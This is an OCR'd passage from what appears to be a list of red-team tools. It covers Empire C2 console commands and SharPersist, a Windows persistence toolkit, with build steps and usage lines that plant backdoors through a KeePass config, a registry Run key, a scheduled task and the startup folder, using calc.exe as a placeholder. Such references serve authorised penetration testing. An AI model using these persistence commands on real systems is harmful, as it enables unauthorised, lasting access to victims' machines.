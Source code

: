 # Start Empire
./empire

# List live agents
list agents

# List live listeners
list listeners
Nice usage cheat sheet by HarmJoy.

image

🔙SharPersist
A Windows persistence toolkit written in C#.

The project has a wiki.

Install: (Binary)

You can find the most recent release here.

Install: (Compile)

Download the project files from the GitHub Repo.
Load the Visual Studio project up and go to "Tools" --> "NuGet Package Manager" --> "Package Manager Settings"
Go to "NuGet Package Manager" --> "Package Sources"
Add a package source with the URL "https://api.nuget.org/v3/index.json"
Install the Costura.Fody NuGet package. The older version of Costura.Fody (3.3.3) is needed, so that you do not need Visual Studio 2019.
Install-Package Costura.Fody -Version 3.3.3
Install the TaskScheduler package
Install-Package TaskScheduler -Version 2.8.11
You can now build the project yourself!
Usage:

A full list of usage examples can be found here.

#KeePass
SharPersist -t keepass -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "C:\Users\username\AppData\Roaming\KeePass\KeePass.config.xml" -m add 

#Registry
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add

#Scheduled Task Backdoor
SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add

#Startup Folder
SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add
image
